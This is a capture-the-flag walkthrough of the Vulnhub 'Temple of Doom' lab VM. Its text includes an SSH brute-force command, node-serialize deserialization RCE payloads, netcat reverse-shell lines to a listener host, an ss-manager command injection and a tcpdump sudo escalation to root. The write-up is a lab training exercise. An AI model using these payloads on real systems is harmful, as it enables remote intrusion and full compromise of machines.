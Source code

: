 # Temple of doom:1 ~Vulnhub Walkthrough
Temple of Doom is a CTF challenge VM on vulnhub made by 0katz. The aim of this lab is to capture the flag in the root directory of the system. This lab is inspired by the Indiana Jones movie Temple of Doom. The level of this lab is easy/intermediate.

## Scanning

Scanning host using nmap

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled.png)

Service version and aggressive scan

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%201.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%201.png)

## Enumeration

Trying to connect through ssh

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%202.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%202.png)

Bruteforce password for root using hydra

hydra -l root -P <wordlist> <target> ssh

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%203.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%203.png)

we found nothing in hydra.

Then we browsed 666 port

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%204.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%204.png)

When refreshing it i found JSON error.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%205.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%205.png)

We intercepted request in burp and found base64 encoded cookie.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%206.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%206.png)

After decoding base64 we found json string

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%207.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%207.png)

We removed token part.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%208.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%208.png)

We send this request after encoding it in base64.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%209.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%209.png)

We observed that admin is reflected in our response.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2010.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2010.png)

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2011.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2011.png)

## Exploitation

***We observed that node-serialize is used in this. And Node-serialize is vulnerable to RCE. Then we followed node-serialize rce attack blog by ajin-abraham ([https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)) and used payload

```
**{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('id',
(error, stdout, stderr)=>{ console.log(stdout); }); }()"}**
```

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2012.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2012.png)

We put above payload in cookie field and encode it with base64 and send request.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2013.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2013.png)

Our payload runs successfully and executed id command.

Try to take reverse shell. Start listening on port 1234

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2014.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2014.png)

Put Following payload in cookie and encode it with base 64 to take reverse shell

```
**{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e 
/bin/bash 192.168.1.6 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}**
```

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2015.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2015.png)

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2016.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2016.png)

After sending request we got shell of target user.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2017.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2017.png)

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2018.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2018.png)

cat /etc/passwd — check how many users are there in target system other than nodeadmin. We found other user **fireman.**

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2019.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2019.png)

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2020.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2020.png)

Lets check which services are runnning by fireman user. We found ss-manager

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2021.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2021.png)

Serach ss-manager exploit on google. 

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2022.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2022.png)

We will use above command to take reverse shell of fireman user

**nc -u 127.0.0.1 8839**

**add: {"server_port":8003, "password":"test", "method":"|| nc 192.168.1.6 5555 -e /bin/bash||"}**

Side by side start listener on port 5555

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2023.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2023.png)

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2024.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2024.png)

We got reverse shell of fireman user.

## Privilege escalation

Now we'll check sudoers list.

**sudo -l**

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2025.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2025.png)

We found tcpdump. 

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2026.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2026.png)

Execute following command one by one and start listening on 5001 port

```
**COMMAND='nc 192.168.1.16 5001 -e /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root**
```

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2027.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2027.png)

Wait for 2-3 minutes and then quit.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2028.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2028.png)

We got root shell of target system.

![Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2029.png](Temple%20of%20Doom%201%20Vulnhub%20Walkthrough%20f4120937706543bca5156c05cad1e232/Untitled%2029.png)
